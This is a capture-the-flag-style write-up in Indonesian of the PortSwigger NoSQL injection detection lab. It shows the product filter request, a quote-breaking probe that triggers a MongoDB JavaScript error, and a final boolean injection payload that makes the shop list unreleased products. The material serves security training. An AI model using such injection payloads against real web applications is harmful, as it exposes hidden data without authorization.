


# Detecting NoSQL Injection

> **Lab Description:** The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection. To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.

## Lab Overview

| Property             | Detail                                                                                                     |
| :------------------- | :--------------------------------------------------------------------------------------------------------- |
| **Category**         | No SQL Injection                                                                                           |
| **Difficulty Level** | Apprentice                                                                                                 |
| **Lab URL**          | [PortSwigger Lab Link](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection) |
| **Status**           | Solved                                                                                                |
| **Date Completed**   |          2026-11-18                                                                                                  |

## Analysis

Diberikan web sebagai berikut:


Objektif dalam lab ini yaitu melakukan `No SQL Injection` terhadap fitur filter kategori produk pada web e-commerce untuk menampilkan produk yang belum rilis.

**Pertama**, saya mengamati bagaimana cara web load semua produk. Saya ambil sample pada kategori `Clothing,shoes and accessories`

```text
GET /filter?category=Clothing%2c+shoes+and+accessories
```

Response dari server adalah halaman HTML beserta produk yang memenuhi kategori tersebut.

**Kedua**, Uji coba query parameter yang memicu `No SQL Injection`

Saya mencoba menggunakan payload berikut:

```text
payload: Clothing, shoes and accessories'''
response:

Command failed with error 139 (JSInterpreterFailure): &apos;SyntaxError: missing ; before statement :
functionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25
&apos; on server 127.0.0.1:27017. The full response is {&quot;ok&quot;: 0.0, &quot;errmsg&quot;: &quot;SyntaxError: missing ; before statement :\nfunctionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25\n&quot;, &quot;code&quot;: 139, &quot;codeName&quot;: &quot;JSInterpreterFailure&quot;}
```

## Exploitation
**Pertama**, Sisipkan payload yang memicu kondisi true, dengan memicu kondisi true, akan menyebabkan database menampilkan semua produk yang seharusnya tersembunyi maupun tidak. Jika aplikasi memproses query seperti ini

```
this.category == 'input' && this.released == 1
```
sehingga memicu kondisi true jika `' || '1'=='1`

**Kedua**, teruskan request ke browser





### Final Exploit

```text
' || '1'=='1
```

## New Knowledge
- Mempelajari cara kerja `No SQL Injection`
- Mempelajari cara kerja No SQL database seperti MongoDB

## References

- [Explained NoSQL Injection by Portswigger](https://portswigger.net/web-security/nosql-injection)

- [OWASP WSTG No SQL Injection](https://wstg.owasp.org/latest/4-Web_Application_Security_Testing/07-Injection/05.6-NoSQL_Injection/)
